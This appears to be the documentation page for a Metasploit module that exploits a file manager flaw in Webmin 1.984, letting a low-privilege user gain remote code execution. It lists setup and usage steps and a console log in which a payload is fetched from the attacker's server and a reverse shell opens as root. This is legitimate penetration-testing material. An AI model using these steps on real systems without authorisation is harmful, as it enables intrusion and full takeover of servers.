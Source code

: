 ## Vulnerable Application

In Webmin v1.984, any authenticated low privilege user without access rights to the
File Manager module could interact with file manager functionalities such as downloading files from remote URLs and changing
file permissions (chmod). It is possible to achieve Remote Code Execution via a crafted .cgi file by chaining those
functionalities in the file manager.

### Setup, on Ubuntu 20.04

```
wget https://download.webmin.com/devel/deb/webmin_1.984_all.deb
sudo dpkg -i  webmin_1.984_all.deb
```

Webmin should now be installed. The credentials for the web UI will be the same as the
user that installed Webmin

## Options
### USERNAME
A specific username to authenticate as
### PASSWORD
A specific password to authenticate with

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/webmin_file_manager_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a session as the `root` user.

## Scenarios
### Webmin 1.984, on Ubuntu 20.04

```
msf > exploit/linux/http/webmin_file_manager_rce
[*] Using exploit/linux/http/webmin_file_manager_rce
msf exploit(linux/http/webmin_file_manager_rce) > set password notpassword
password => notpassword
msf exploit(linux/http/webmin_file_manager_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(linux/http/webmin_file_manager_rce) > set rhosts 172.16.199.132
rhosts => 172.16.199.132
msf exploit(linux/http/webmin_file_manager_rce) > set username msfuser
username => msfuser
msf exploit(linux/http/webmin_file_manager_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Using URL: http://172.16.199.1:8080/tmBFT82mvsHD
[*] Attempting to authenticate with Webmin
[+] Authentication successful
[*] Downloading remote url
[*] Fetching payload from HTTP server
[*] Request 'GET /tmBFT82mvsHD.cgi'
[*] Sending payload ...
[*] Finished downloading remote url
[*] Modifying the permissions of the uploaded payload to 0755
[+] Deleted /usr/share/webmin/tmBFT82mvsHD.cgi
[*] Command shell session 9 opened (172.16.199.1:4444 -> 172.16.199.132:58058) at 2022-10-25 16:21:02 -0400
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```
